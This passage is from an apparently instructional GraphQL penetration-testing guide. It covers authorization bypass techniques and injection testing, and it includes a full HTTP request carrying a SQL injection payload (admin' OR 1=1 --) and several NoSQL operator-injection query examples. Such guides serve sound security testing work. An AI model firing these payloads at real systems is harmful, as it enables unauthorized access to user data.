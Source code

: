 4. **Role-based authorization tests**:
   - Try to perform admin mutations as regular user
   - Check for missing authorization on custom operations
   - Test newly added fields which might be missed in authorization logic

5. **Common bypasses to try**:
   - Use aliases to request the same field multiple ways
   - Try camelCase variations of field names
   - Use fragments to obscure sensitive field requests
   - Use introspection to find non-UI fields that might lack authorization checks

### 5. Injection Testing

GraphQL resolvers often pass data directly to underlying systems, creating injection opportunities:

1. **SQL injection via GraphQL**:
   - Test string parameters in queries/mutations
   - Try classic SQL injection payloads adapted for GraphQL
   - Use Burp Intruder with GraphQL-specific payload positions
   
   Example in Burp Repeater:
   ```
   POST /graphql HTTP/1.1
   Host: target.com
   Content-Type: application/json
   
   {"query": "query { user(username: \"admin' OR 1=1 --\") { id username email } }"}
   ```

2. **NoSQL injection**:
   - Test for MongoDB operator injection
   - Try JSON parameter pollution in arguments
   
   Example (some implementations pass objects directly to MongoDB):
   ```graphql
   # This often doesn't work directly because GraphQL validates the type
   query {
     user(username: {$ne: null}) {
       id
       username
       email
     }
   }
   
   # More realistic payloads using string manipulation or variables
   # 1. Using string formatting to pass MongoDB operators
   query {
     user(username: "admin', $or: [ {}, { 'a':'a") {
       id
       username
     }
   }
   
   # 2. Using variables and JSON objects when variables aren't properly sanitized
   query ($username: JSON) {
     findUser(criteria: $username) {
       id
       email
     }
   }
   ```
   